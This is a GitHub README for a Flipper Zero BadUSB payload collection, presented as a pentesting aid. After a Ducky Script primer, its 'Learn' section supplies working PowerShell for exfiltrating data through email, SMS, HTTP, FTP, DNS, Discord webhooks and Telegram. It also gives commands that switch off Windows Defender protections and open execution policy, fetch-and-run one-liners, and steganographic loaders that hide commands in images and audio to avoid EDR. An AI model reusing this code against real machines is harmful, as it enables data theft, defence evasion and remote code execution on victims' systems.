

<div align="center">

  
  <h1>Flipper Zero BADUSB Repo</h1>
  
  <p>
    A Collection of Flipper Zero BADUSB Payloads
  </p>
</div>

<br />

<!-- Table of Contents -->
# Table of Contents 📒

- [About the Project](#about-the-project)
  * [Rubber Ducky](#rubber-ducky)
  * [Shop](#shop)
- [Getting Started](#getting-started)
  * [Variables](#variables)
  * [Installation](#installation)
  * [Deployment](#deployment)
  * [Learn](#learn)
- [Roadmap](#roadmap)
- [Contact](#contact)
- [Acknowledgements](#acknowledgements)

  

<!-- About the Project -->
## About the Project
This Repository is to assist others in their pentesting adventures in addition to helping those get their feet wet for Ducky Scripts 🐥

<!-- Rubber Ducky -->
## Rubber Ducky
A USB Rubber Ducky is a keystroke injection tool that looks like a USB flash drive. When plugged in, it executes pre-programmed scripts that mimic keyboard input, allowing for quick automation of tasks such as penetration testing and security assessments.

## Shop
<details>
  <summary>Hak5</summary>
  <ul>
    <li><a href="https://shop.hak5.org">Hak5 Shop</a></li>
    <li><a href="https://shop.hak5.org/products/usb-rubber-ducky">Rubber Ducky</a></li>
    <li><a href="https://payloadhub.com/blogs/payloads">Hak5's Payload Hub</a></li>
    <li><a href="https://docs.hak5.org/hak5-usb-rubber-ducky">Official Ducky Script Documentation</a></li>
  </ul>
</details>

<details>
  <summary>Flipper Zero</summary>
  <ul>
    <li><a href="https://shop.flipperzero.one">Flipper Zero Shop</a></li>
    <li><a href="https://docs.flipper.net/bad-usb">Flipper Zero's Badusb Documentation</a></li>
  </ul>
</details>

<details>
<summary>Digispark</summary>
  <ul>
    <li><a href="https://www.amazon.com/digispark/s?k=digispark">Amazon Digispark</a></li>
    <li><a href="https://blog.spacehuhn.com/badusb-digispark">Digispark Badusb</a></li>
    <li><a href="https://github.com/CharlesTheGreat77/DigiPass">Digispark Badusb Payloads</a></li>
  </ul>
</details>

<details>
<summary>External Flipper Resources</summary>
  <ul>
    <li><a href="https://github.com/jamisonderek">Mr. Derek Jamison</a></li>
  </ul>
</details>

<!-- Prerequisites -->
## Prerequisites
This project (and the Flipper Zero as a whole) uses *Ducky Script version 1*. Additionally, most payloads are tested in a *Windows 10* environment. Further testing will be needed on *Windows 11* environment security standards.

<!-- Getting Started -->
## Getting Started 
This is a VERY brief explanation of ducky script in my own words. One may refer to this <a href="https://gist.github.com/methanoliver/efebfe8f4008e167417d4ab96e5e3cac">link</a> if in doubt of supported commands.
<details>
    <summary>REM</summary>
  <ul>
    <li>REM is used as a comment, and does not perform ANY keystroke injection. It got the name REM from the word REMark (remark).</li>
  </ul>
  <pre><code>REM This is a comment</code></pre>
</details>

<details>
    <summary>STRING</summary>
  <ul>
    <li>STRING injects a series of keystrokes. Interpreting lowercase, uppercase, etc. automatically with Flipper Zero's implmentation.</li>
  </ul>
  <pre><code>STRING I Love You!
ENTER</code></pre>
  Output:
  <pre><code>I Love You!</code></pre>
  <ul>
    <li>we'll cover the ENTER command right after..</li>
  </ul>
</details>

<details>
    <summary>ENTER</summary>
  <ul>
    <li>ENTER does just that.. presses the return (enter) button! This is one of many supported commands which can be found <a href="https://gist.github.com/methanoliver/efebfe8f4008e167417d4ab96e5e3cac">here</a>!</li>
  </ul>
  <pre><code>STRING I Love You!
ENTER</code></pre>
  Output:
  <pre><code>I Love You!</code></pre>
</details>

<details>
    <summary>DELAY</summary>
  <ul>
    <li>DELAY creates a momentary pause in miliseconds. This is VERY useful when keystrokes are too fast for the target computer to interpret. If your working payload is failing.. this is probably the cause (ADD MORE DELAY).</li>
  </ul>
  <pre><code>STRING hey!
ENTER
DELAY 1000
STRING how are you?
ENTER
</code></pre>
  Output:
  <pre><code>hey!
[delays for 1 second]
how are you?</code></pre>
</details>

<details>
    <summary>Additional Commands</summary>
  <ul>
    <li>Modifiers: <pre><code>CTRL
CONTROL
SHIFT
ALT
GUI
WINDOWS</code></pre></li>
    <li>Combos: <pre><code>CTRL-ALT
CTRL-SHIFT
ALT-SHIFT
ALT-GUI
GUI-SHIFT</code></pre></li>
    <li>Cursors: <pre><code>DOWNARROW
DOWN
LEFTARROW
LEFT
RIGHTARROW
RIGHT
UPARROW
UP</code></pre></li>
    <li>Control and navigation: <pre><code>ENTER, BREAK, PAUSE, CAPSLOCK, DELETE, BACKSPACE, END, ESC, ESCAPE, HOME, INSERT, NUMLOCK, PAGEUP, PAGEDOWN, PRINTSCREEN, SCROLLOCK, SPACE, TAB, MENU, APP, SYSRQ</code></pre></li>
    <li>Functions: <pre><code>F1, F2, F3, F4, F5, F6, F7, F8, F9, F10, F11, F12</code></pre></li>
  </ul>
</details>

<details>
    <summary>Your first payload (Windows)</summary>
  <ul>
    <li>Lets create a simple payload to open notepad and display.</li>
  </ul>
  <pre><code>GUI r
STRING notepad.exe
ENTER
DELAY 2000
STRING hello world!
ENTER
</code></pre>
  Output: Opens the windows run box with GUI r [GUI is a modifier], and types in notepad.exe, which opens notetpad and types:
  <pre><code>hello world!</code></pre>
  <ul>
    <li>Again, you can find modifiers, combos, cursors, etc. <a href="https://gist.github.com/methanoliver/efebfe8f4008e167417d4ab96e5e3cac">here</a></li>
  </ul>
</details>


<!-- Variables -->
### Variables
To run most scripts, one must populate the variables inside the payload (.txt) file. All variables will be clearly stated with ```%CHANGE_ME%```

Examples:
```
discord_webook = %CHANGE_ME%
```
```
smtp_server = %CHANGE_ME%
```

<!-- Download -->
# Installation
<details>
    <summary>Install BADUSB Repository 🖥️</summary>
    <details>
        <summary>Windows Install 🪟</summary>
            <ul>
                <li>Download the zip and extract the contents in your preffered directory.</li>
            </ul>
            <ul>
                
            </ul>
    </details>
    <details>
        <summary>Linux Download 🖥️</summary>
        <ul>
            <li>In any terminal:</li>
            <pre><code>git clone https://github.com/CharlesTheGreat77/BADUSB</code></pre>
        </ul>
    </details>

</details>


<!-- Deployment -->
## Deployment

To deploy the payloads, one must edit the payload (if required) by changing the variables accordingly in the *.txt* file(s) of choice. 

Copy the payloads in the badusb folder in the flipper zero BADUSB directory.


<!-- Payload Development -->
## Learn
These are brief powershell concepts which covers just about whatever you need for red teaming.

<!-- Exfil Methods -->
<details>
    <summary>Exfiltration Methods</summary>
  <ul>
    <li>SMTP and/or SMS</li>
  </ul>

```powershell
$hello_world = "Hello World!" # exfiltrate data
$send_to = "%SEND_TO%" # could be the email used below, another email, or a phone number
$smtp_server = "%SMTP_SERVER%" # smtp.gmail.com
$smtp_username = "%SMTP_USERNAME%" # gmail account [example@gmail.com]
$token = "%TOKEN%" # gmail token/smtp password
$SMTPInfo = New-Object Net.Mail.SmtpClient($smtp_server, 587); $SMTPInfo.EnableSsl = $true; $SMTPInfo.Credentials = New-Object System.Net.NetworkCredential($smtp_username, $token); $ReportEmail = New-Object System.Net.Mail.MailMessage; $ReportEmail.From = $smtp_username; $ReportEmail.To.Add($send_to); $ReportEmail.Body = "Flipper Report: $hello_world"; $SMTPInfo.Send($ReportEmail)
```
Phone Number Setup for *send_to* variable:
    
    Format: <phonenumber>@smsgateway
    example: 9992221111@tmomail.net
SMS Gateways for Service Providers can be found <a href="https://www.fbbbrown.com/help-faq/app-help/runsafe/list-of-mobile-carrier-gateway-addresses/">here</a>!

  <ul>
    <li>File Transfer with curl:</li>
  </ul>

```powershell
curl.exe -F "file1=@filename.txt" <end_point>
```
  <ul>
    <li>HTTP POST request:</li>
  </ul>

```powershell
$content = Get-Content %FILE_TO_EXFIL% # output.txt
Invoke-WebRequest -Uri http://<http_server> -Method POST -Body $content
```
Exfiltrat files and send the contents via a HTTP post request.

  <ul>
    <li>FTP File Upload:</li>
  </ul>

```powershell
$fileName = "%FILENAME%"
$ftpUrl = "%FTP_URL%"
$ftpPassw = "%FTP_PASSWORD%"
$sampleData = "Sample data for exfiltration test"
Set-Content -Path $fileName -Value $sampleData
$creds = Get-Credential -Credential $ftpPassw
Invoke-WebRequest -Uri $ftpUrl -Method Put -InFile $fileName -Credential $creds
```
Upload files via FTP to an existing FTP server
  <ul>
    <li>Exfiltrate over DNS:</li>
  </ul>

```powershell
$dnsServer = "%DNS_SERVER%"
$exfiltratedData = "String of exfiltrated data"
$chunkSize = 63 # look at the sizes of record types
$encodedData = [System.Text.Encoding]::UTF8.GetBytes($exfiltratedData)
$encodedData = [Convert]::ToBase64String($encodedData)
$chunks = $encodedData -split "(.{$chunkSize})"
foreach ($chunk in $chunks) {
    $dnsQuery = $chunk + "." + $dnsServer
    Resolve-DnsName -Name $dnsQuery
    Start-Sleep -Seconds 5
}
```
  <ul>
    <li>Exfiltrate File using curl to Discord Webhook:</li>
  </ul>

```powershell
$discordWebhook = '%WEBHOOK%'
curl.exe -F "file1=@%FILENAME%" $discordWebhook
```

  <ul>
    <li>Exfiltrate data to Discord Webhook:</li>
  </ul>

```powershell
$discordWebhook = "%WEBHOOK%"
$content='This is exfiltrated data'; $payload=[PSCustomObject]@{ content=$content }
Invoke-RestMethod -ContentType "Application/Json" -Uri $webhook -Method Post -Body ($payload | ConvertTo-Json)
```

  <ul>
    <li>Exfiltrate data to Telegram:</li>
  </ul>

```powershell
$id = "%CHAT_ID%"
$token = "%TELE_TOKEN%"
$data = "Exiltrated data example"
$URL = "https://api.telegram.org/bot{0}" -f $token
$MessageToSend = New-Object psobject; $MessageToSend | Add-Member -MemberType NoteProperty -Name 'chat_id' -Value $id
$MessageToSend | Add-Member -MemberType NoteProperty -Name 'text' -Value "$data"
Invoke-RestMethod -Method Post -Uri ($URL +'/sendMessage') -Body ($MessageToSend | ConvertTo-Json) -ContentType "application/json"
```


<!-- Execution Policy/AV Stuff -->
</details>

<details>
    <summary>ExecutionPolicy/AV</summary>
    <ul>
        <li>Disable Real Time Monitoring, Behavior Monitoring etc:</li>
    </ul>

```powershell
Set-MpPreference -DisableRealtimeMonitoring $true -DisableScriptScanning $true -DisableBehaviorMonitoring $true -DisableIOAVProtection $true -DisableIntrusionPreventionSystem $true
```

Admin Privileges is Required.

```powershell
powershell "Start-Process powershell -verb runas"
```

Can open powershell as admin.

  <ul>
    <li>Set Exclusive Path:</li>
  </ul>

```powershell
Add-MpPreference -ExclusionPath %PATH% ; Set-ExecutionPolicy unrestricted
```
To restrict the path back to normal:
```powershell
Remove-MpPreference -ExclusionPath %PATH% ; Set-ExecutionPolicy restricted
```
</details>

<!-- Execution -->
<details>
    <summary>Execution Tactics</summary>
    <ul>
        <li>Execute File from URL in memory:</li>
    </ul>

```powershell
iex(New-Object Net.WebClient).DownloadString('%URL_TO_PS1_FILE%')
```

</details>
<!-- Steganography -->
<details>
    <summary>Steganography (with Python)</summary>
    <p>Steganography is hiding secret information within ordinary-looking files like images or documents. Red teamers use it to sneak sensitive data or commands past security defenses. They can embed data in files to avoid detection, extract information stealthily from networks, hide malware, or verify file authenticity. It helps simulate realistic attacks and test how well defenses can detect covert activities.</p>

Prerequisites For The Methods Below:
| Prerequisite | Version |
|--------------|---------|
| Python       |  <=3    |

```
pip3 install Pillow numpy
```

  <ul>
    <li>LSB Encoding Powershell commands in an image:</li>
  </ul>

This technique encodes our powershell commands into specific regions of an image by replacing the LSB of the RGB color channels to our powershell command.


Here's a python implementation to encode our command:
<!-- LSB Encoder -->
```python
from PIL import Image
import numpy as np

def encode_data_in_region(image_path, data, region):
    img = Image.open(image_path)
    binary_data = ''.join(format(ord(char), '08b') for char in data)
    if len(binary_data) > region[2] * region[3] * 3:
        raise ValueError("Data too large to be encoded in the specified region")
    img_array = np.array(img)
    y_start, x_start, height, width = region
    binary_data_iter = iter(binary_data)
    for y in range(y_start, y_start + height):
        for x in range(x_start, x_start + width):
            if len(binary_data) == 0:
                break
            pixel = img_array[y, x]
            for i in range(3):
                try:
                    bit = int(next(binary_data_iter))
                except StopIteration:
                    bit = 0  # pad wit 0's
                pixel[i] = (pixel[i] & 0xFE) | bit # clear RGB color channel, replace with LSB bit value
                encoded_img = Image.fromarray(img_array)
    return encoded_img

# Usage
image_path = '%FILEPATH%'
secret_data = "whoami"
region_to_encode = (100, 100, 50, 50)  # Define the region as (y_start, x_start, height, width)
encoded_image = encode_data_in_region(image_path, secret_data, region_to_encode)
encoded_image.save('encoded_image.png')
```

This encodes a string in an image using LSB encoding at specific regions ```(100, 100, 50, 50)``` to hide the commands within the image for execution. It then outputs the encoded image to a png file.

We can now **post** or **host** the encoded image for the target machine to download.

1. Create a github repository
2. Host in locally using python server.http
3. External file sharing providers

<!-- LSB Decoder -->
Lets now decode the commmand in the image using powershell and execute:
```powershell
$url = %URL_TO_IMAGE%
$imagePath = encoded_image.png
# download encoded image
$webClient = New-Object System.Net.WebClient
$webClient.DownloadFile($url, $imagePath)

Add-Type -AssemblyName System.Drawing

try {
    $imageBytes = [System.IO.File]::ReadAllBytes($imagePath)
    $memoryStream = New-Object System.IO.MemoryStream
    $memoryStream.Write($imageBytes, 0, $imageBytes.Length)
    $memoryStream.Seek(0, 'Begin') | Out-Null

    $image = [System.Drawing.Image]::FromStream($memoryStream)
    # regions we set in the encoder
    $region = New-Object System.Drawing.Rectangle(100, 100, 50, 50)

    $bitmap = New-Object System.Drawing.Bitmap($image)

    $decodedData = ""
    for ($y = $region.Top; $y -lt ($region.Top + $region.Height); $y++) {
        for ($x = $region.Left; $x -lt ($region.Left + $region.Width); $x++) {
            $color = $bitmap.GetPixel($x, $y)
            # Extract the lsb from each color channel
            $bit = $color.R -band 1
            $decodedData += $bit
            $bit = $color.G -band 1
            $decodedData += $bit
            $bit = $color.B -band 1
            $decodedData += $bit
        }
    }

    $paddingLength = 8 - ($decodedData.Length % 8)
    if ($paddingLength -ne 8) {
        $decodedData += '0' * $paddingLength
    }
    $decodedMessage = ""
    for ($i = 0; $i -lt $decodedData.Length; $i += 8) {
        $byte = [Convert]::ToByte($decodedData.Substring($i, 8), 2)
        $decodedMessage += [char]$byte
    }

    $decodedMessage = $decodedMessage -creplace "[^\x20-\x7E]", ""
    Write-Host $decodedMessage # output command
}
catch {
    Write-Host "Error: $_"
}
```
**Note** the url path, after uploading the encoded image to your file sharing provider, copy & paste the **direct** url to your encoded file inside the decoders ```$url``` variable.

Next we can upload our decoder file as a text file to easily grab the contents of the file for it to download the image, decode, and execute!

OR

We can convert this existing decoder to a *Ducky Script*, update the ```$url``` variable to where your audio file is stored and call it a day!

Executing on a target machine would look like this when saving the decoder to a file sharing website:
```powershell
iex(iwr %download_to_decoder.txt%).Content | iex
```
Issues with this technique is uploading to external file sharing providers, as they may *modify/compress* the file upon upload, which creates an issue with our existing decoding process.

<!-- Spread Spectrum Encoding -->
  <ul>
    <li>Spread Spectrum encoding:</li>
  </ul>
In this Technique, we'll convert the commands into binary and encode it into an audio file. By adjusting the amplitude for each bit (0/1), we can encode our commands in the audio without distoring the sound.


Heres a python implementation to encode our command:
```python
import wave
import numpy as np

def spread_spectrum_audio_encode(audio_path, message):
    with wave.open(audio_path, 'rb') as audio_file:
        audio_params = audio_file.getparams()
        audio_frames = audio_file.readframes(audio_params.nframes)
    audio_data = np.frombuffer(audio_frames, dtype=np.int16)
    
    binary_message = ''.join(format(ord(char), '08b') for char in message)
    message_length = len(binary_message)
    
    watermarked_audio_data = audio_data.copy()
    for i in range(message_length):
        if binary_message[i] == '1':
            watermarked_audio_data[i] += 100  # Increase amplitude for '1'
        else:
            watermarked_audio_data[i] -= 100  # Decrease amplitude for '0'
    
    with wave.open('watermarked_audio.wav', 'wb') as watermarked_audio_file:
        watermarked_audio_file.setparams(audio_params)
        watermarked_audio_file.writeframes(watermarked_audio_data.tobytes())

# Usage
audio_path = '%FILEPATH%.wav'
message = "whoami"
print(f'[*] Length of Message: {len(message)}') # remember length of message
spread_spectrum_audio_encode(audio_path, message)
```
This will encode our command ```whoami``` in a newly created audio file called ```watermarked_audio.wav```. *Take note* of our message length (length: ```6```).


Much like our LSB technique, we can upload or host our newly encoded audio file for our target machine to download.

Lets decode the audio file in powershell and execute:
```powershell
$url = "%URL_TO_AUDIO_FILE%"
# INPUT the length of MESSAGE!!
# $length = 6 [whoami = 6]
$length = 6 # edit this base on message length

function Decode-SpreadSpectrumAudio {
    param (
        [byte[]]$audioBytes,
        [int]$messageLength
    )
    try {
        $extractedMessage = ""
        for ($i = 44; $i -lt ($messageLength * 2) + 44; $i += 2) {
            # conv two bytes to a 16-bit signed int
            $sample = [BitConverter]::ToInt16($audioBytes, $i)

            if ($sample -gt 0) {
                $extractedMessage += "1"
            }
            else {
                $extractedMessage += "0"
            }
        }
        $decodedMessage = ""
        for ($i = 0; $i -lt $extractedMessage.Length; $i += 8) {
            $binarySubstring = $extractedMessage.Substring($i, 8)
            $charCode = [Convert]::ToInt32($binarySubstring, 2)
            $decodedMessage += [char]$charCode
        }
        return $decodedMessage
    }
    catch {
        Write-Host "Error: $_"
    }
}

$messageLength = $length * 8
$req = (Invoke-WebRequest -Uri $url -Method Get -UseBasicParsing).Content
$decodedMessage = Decode-SpreadSpectrumAudio -audioBytes $req -messageLength $messageLength
"$decodedMessage"
```

**Note** the url path, after uploading the encoded audio to your file sharing provider, copy & paste the **direct** url to your encoded file inside the decoders ```$url``` variable.

Next we can upload our decoder file as a text file to easily grab the contents of the file for it to download the audio, decode, and execute!

OR

We can convert this existing decoder to a *Ducky Script*, update the ```$url``` variable to where your audio file is stored and the length of your powershell command, and call it a day!

Executing this with the first option above looks like such:
```powershell
iex(iwr %URL_TO_DECODER.txt%).Content | iex
```

When using steganography as a means of execution or exfiltration, it's best to familiarize yourself with the documents, attachments, etc. that are common in the environment one is pentesting. Additionally, downloading images or audio files from suspicious URLs or the images itself contain odd graphics or other means of content is a huge red flag. Be wise on the images or audio files in use to keep a low profile on EDR solutions etc.

These techniques can be found in another repository of mine <a href="https://github.com/CharlesTheGreat77/BadSteganography">here</a>.
</details>

<!-- Utilities -->
<details>
    <summary>Utilities</summary>
    <ul>
        <li>Get contents of file to a variable:</li>
    </ul>

```powershell
$content = [IO.File]::ReadAllText("%FILEPATH%");
```
OR
```powershell
$content = [System.IO.File]::ReadAllLines("%FILEPATH%")
```
```powershell
$content = cat %FILEPATH%
```
```powershell
$content = Get-Content -Path %FILEPATH%
```
```powershell
$reader = [System.IO.StreamReader]::new("%FILEPATH%")
try {
    $content = $reader.ReadToEnd()
} finally {
    $reader.Close()
}
```
</details>

<!-- Roadmap -->
## Roadmap

* [ ] Update Learn section in README
* [ ] Update filesystem hierarchy
* [ ] Update Payload list

<!-- Contact -->
## Contact

Dicord: DoobTheGoober

Projects: [github](https://github.com/CharlesTheGreat77)


<!-- Acknowledgments -->
## Acknowledgements
I want to give some honor to specific individuals regardless of contribution for payload creation or sheer knowledge and motivation!

 - [Rocket God](https://github.com/RocketGod-git)
 - [Kavitate](https://github.com/Kavitate)
 - [Derek Jamison](https://github.com/jamisonderek)
 - [Redd](https://github.com/InfoSecREDD)
